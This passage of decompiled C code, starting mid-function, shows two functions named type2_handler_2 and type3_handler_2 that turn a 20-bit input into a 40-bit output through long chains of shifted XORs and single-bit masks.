  v14 = v13 | (((a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 1) ^ (a1 >> 16)) << 34) & 0x400000000LL | (((a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1) ^ (a1 >> 18)) << 33) & 0x200000000LL | (((a1 >> 17) ^ (a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 12) ^ (a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ a1 ^ (a1 >> 1) ^ (a1 >> 18)) << 32) & 0x100000000LL | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 18)) << 31) | (((unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 18)) << 30) & 0x40000000 | v12;
  return (((a1 >> 17) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 1) ^ (a1 >> 19)) << 38) & 0x4000000000LL | (((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 2) ^ (a1 >> 17)) << 37) & 0x2000000000LL | (((a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 10) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1) ^ (a1 >> 17)) << 36) & 0x1000000000LL | v14 | (((a1 >> 18) ^ (a1 >> 15) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 19)) << 39) & 0x8000000000LL;
}

__int64 type2_handler_2(unsigned __int64 a1)
{
  __int64 v1; // rax
  unsigned __int64 v2; // rdx
  unsigned __int64 v3; // rcx
  __int64 v4; // rax
  unsigned __int64 v5; // rdx
  __int64 v6; // rax
  unsigned __int64 v7; // rdx
  unsigned __int64 v8; // rcx
  unsigned __int64 v9; // rdx
  unsigned __int64 v10; // rcx
  unsigned __int64 v11; // rdx
  __int64 v12; // rdx

  v1 = (16
      * ((unsigned __int8)((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 3)) ^ (unsigned __int8)(a1 >> 17))) & 0x10;
  v2 = v1 | (8
           * ((unsigned __int8)(BYTE2(a1) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 18))) & 8 | (4 * ((unsigned __int8)(BYTE2(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19))) & 4 | (2 * ((unsigned __int8)(BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4)) ^ (unsigned __int8)(a1 >> 18))) & 2 | (unsigned __int64)(((unsigned __int8)((a1 >> 18) ^ BYTE2(a1) ^ (a1 >> 13) ^ (a1 >> 12) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19)) & 1);
  v3 = (unsigned __int8)(((unsigned __int8)((a1 >> 18) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ BYTE1(a1) ^ (a1 >> 5) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 19)) << 7) | (((unsigned __int8)((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 10) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 19)) << 6) & 0x40 | (32 * ((unsigned __int8)((a1 >> 17) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 9) ^ BYTE1(a1) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19))) & 0x20 | v2;
  v4 = (((unsigned __int16)((a1 >> 17) ^ WORD1(a1) ^ (a1 >> 13) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ a1 ^ (a1 >> 4)) ^ (unsigned __int16)(a1 >> 18)) << 12) & 0x1000;
  v5 = v4 | (((unsigned __int16)((a1 >> 18) ^ (a1 >> 17) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 7) ^ (a1 >> 5)) ^ (unsigned __int16)(a1 >> 19)) << 11) & 0x800 | (((unsigned __int16)((a1 >> 17) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 19)) << 10) & 0x400 | (((unsigned __int16)((a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 3)) ^ (unsigned __int16)(a1 >> 19)) << 9) & 0x200 | (((unsigned __int16)((a1 >> 17) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 10) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int16)(a1 >> 18)) << 8) & 0x100 | v3;
  v6 = (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 19)) << 17) & 0x20000;
  v7 = v6 | (((unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 18)) << 16) & 0x10000 | (unsigned __int16)(((unsigned __int16)((a1 >> 13) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 5) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 17)) << 15) | (((unsigned __int16)((a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 9) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 19)) << 14) & 0x4000 | (((unsigned __int16)(WORD1(a1) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 6) ^ (a1 >> 4)) ^ (unsigned __int16)(a1 >> 18)) << 13) & 0x2000 | v5;
  v8 = (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 19)) << 20) & 0x100000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 19) & 0x80000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 19)) << 18) & 0x40000 | v7;
  v9 = (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 24) & 0x1000000 | (((unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 23) & 0x800000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 22) & 0x400000 | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 21) & 0x200000 | v8;
  v10 = (((unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 13)) << 28) & 0x10000000 | (((unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 16)) << 27) & 0x8000000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 26) & 0x4000000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 18)) << 25) & 0x2000000 | v9;
  v11 = (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 31) | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 30) & 0x40000000 | (((unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 16)) << 29) & 0x20000000 | v10;
  v12 = (((a1 >> 17) ^ (a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 11) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 1) ^ (a1 >> 19)) << 36) & 0x1000000000LL | (((a1 >> 15) ^ (a1 >> 12) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 1) ^ (a1 >> 18)) << 35) & 0x800000000LL | (((a1 >> 18) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 1) ^ (a1 >> 19)) << 34) & 0x400000000LL | (((a1 >> 18) ^ (a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 2) ^ (a1 >> 19)) << 33) & 0x200000000LL | (((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 10) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 2) ^ (a1 >> 16)) << 32) & 0x100000000LL | v11;
  return (((a1 >> 16) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 1) ^ (a1 >> 17)) << 38) & 0x4000000000LL | (((a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 9) ^ (a1 >> 8) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 1) ^ (a1 >> 19)) << 37) & 0x2000000000LL | v12 | (((a1 >> 17) ^ (a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ a1 ^ (a1 >> 1) ^ (a1 >> 19)) << 39) & 0x8000000000LL;
}

__int64 type3_handler_2(unsigned __int64 a1)
{
  unsigned __int64 v1; // rcx
  unsigned __int64 v2; // rcx
  unsigned __int64 v3; // rcx
  unsigned __int64 v4; // rdx
  unsigned __int64 v5; // rcx
  unsigned __int64 v6; // rcx
  unsigned __int64 v7; // rdx
  unsigned __int64 v8; // rdx
  __int64 v9; // rdx

  v1 = (16
      * ((unsigned __int8)((a1 >> 17) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 10) ^ BYTE1(a1) ^ (a1 >> 6) ^ a1 ^ (a1 >> 3)) ^ (unsigned __int8)(a1 >> 18))) & 0x10 | (8 * ((unsigned __int8)((a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 4)) ^ BYTE2(a1))) & 8 | (4 * ((unsigned __int8)((a1 >> 18) ^ BYTE2(a1) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 19))) & 4 | (2 * ((unsigned __int8)((a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 9) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 19))) & 2 | (unsigned __int64)(((unsigned __int8)((a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 5) ^ (a1 >> 3) ^ a1 ^ (a1 >> 2)) ^ BYTE2(a1)) & 1);
  v2 = (((unsigned __int16)(WORD1(a1) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int16)(a1 >> 17)) << 8) & 0x100 | (unsigned __int8)(((unsigned __int8)((a1 >> 14) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 4)) ^ (unsigned __int8)(a1 >> 17)) << 7) | (((unsigned __int8)((a1 >> 17) ^ BYTE2(a1) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 6) ^ (a1 >> 2)) ^ (unsigned __int8)(a1 >> 18)) << 6) & 0x40 | (32 * ((unsigned __int8)((a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 1)) ^ (unsigned __int8)(a1 >> 19))) & 0x20 | v1;
  v3 = (((unsigned __int16)((a1 >> 18) ^ WORD1(a1) ^ (a1 >> 15) ^ (a1 >> 13) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 3)) ^ (unsigned __int16)(a1 >> 19)) << 12) & 0x1000 | (((unsigned __int16)((a1 >> 17) ^ (a1 >> 13) ^ (a1 >> 9) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 6) ^ (a1 >> 4) ^ (a1 >> 3)) ^ (unsigned __int16)(a1 >> 19)) << 11) & 0x800 | (((unsigned __int16)((a1 >> 17) ^ WORD1(a1) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 6) ^ (a1 >> 5) ^ (a1 >> 4) ^ a1 ^ (a1 >> 1)) ^ (unsigned __int16)(a1 >> 18)) << 10) & 0x400 | (((unsigned __int16)((a1 >> 11) ^ (a1 >> 10) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 6) ^ a1 ^ (a1 >> 5)) ^ (unsigned __int16)(a1 >> 15)) << 9) & 0x200 | v2;
  v4 = (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 17) & 0x20000 | (((unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 14)) << 16) & 0x10000 | (unsigned __int16)(((unsigned __int16)((a1 >> 17) ^ WORD1(a1) ^ (a1 >> 15) ^ (a1 >> 11) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 4) ^ (a1 >> 2)) ^ (unsigned __int16)(a1 >> 19)) << 15) | (((unsigned __int16)((a1 >> 18) ^ (a1 >> 13) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2)) ^ (unsigned __int16)(a1 >> 19)) << 14) & 0x4000 | (((unsigned __int16)((a1 >> 12) ^ ((unsigned int)a1 >> 8) ^ (a1 >> 6) ^ (a1 >> 4) ^ a1 ^ (a1 >> 2)) ^ (unsigned __int16)(a1 >> 18)) << 13) & 0x2000 | v3;
  v5 = (((unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 17)) << 21) & 0x200000 | (((unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 16)) << 20) & 0x100000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 19) & 0x80000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 19)) << 18) & 0x40000 | v4;
  v6 = (((unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 16)) << 24) & 0x1000000 | (((unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 23) & 0x800000 | (((unsigned int)(a1 >> 18) ^ (unsigned int)(a1 >> 17) ^ (unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 22) & 0x400000 | v5;
  v7 = (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 17)) << 28) & 0x10000000 | (((unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 17)) << 27) & 0x8000000 | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 26) & 0x4000000 | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 18)) << 25) & 0x2000000 | v6;
  v8 = (((unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 12) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)a1 ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 31) | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 15) ^ (unsigned int)(a1 >> 14) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 11) ^ (unsigned int)(a1 >> 9) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 5) ^ (unsigned int)(a1 >> 3) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 18)) << 30) & 0x40000000 | (((unsigned int)(a1 >> 16) ^ (unsigned int)(a1 >> 13) ^ (unsigned int)(a1 >> 10) ^ (unsigned int)(a1 >> 8) ^ (unsigned int)(a1 >> 7) ^ (unsigned int)(a1 >> 6) ^ (unsigned int)(a1 >> 4) ^ (unsigned int)(a1 >> 2) ^ (unsigned int)(a1 >> 1) ^ (unsigned int)(a1 >> 19)) << 29) & 0x20000000 | v7;
  v9 = (((a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 9) ^ (a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 2) ^ (a1 >> 19)) << 36) & 0x1000000000LL | (((a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 9) ^ (a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 19)) << 35) & 0x800000000LL | (((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 6) ^ (a1 >> 5) ^ a1 ^ (a1 >> 2) ^ (a1 >> 19)) << 34) & 0x400000000LL | (((a1 >> 18) ^ (a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 7) ^ (a1 >> 4) ^ a1 ^ (a1 >> 1) ^ (a1 >> 19)) << 33) & 0x200000000LL | (((a1 >> 18) ^ (a1 >> 17) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 8) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 19)) << 32) & 0x100000000LL | v8;
  return (((a1 >> 16) ^ (a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 7) ^ (a1 >> 4) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 18)) << 38) & 0x4000000000LL | (((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 13) ^ (a1 >> 12) ^ (a1 >> 11) ^ (a1 >> 10) ^ (a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 4) ^ (a1 >> 2) ^ (a1 >> 1) ^ (a1 >> 18)) << 37) & 0x2000000000LL | v9 | (((a1 >> 15) ^ (a1 >> 14) ^ (a1 >> 12) ^ (a1 >> 10) ^ (a1 >> 9) ^ (a1 >> 8) ^ (a1 >> 7) ^ (a1 >> 5) ^ (a1 >> 3) ^ (a1 >> 2) ^ (a1 >> 1) ^ (a1 >> 16)) << 39) & 0x8000000000LL;
}

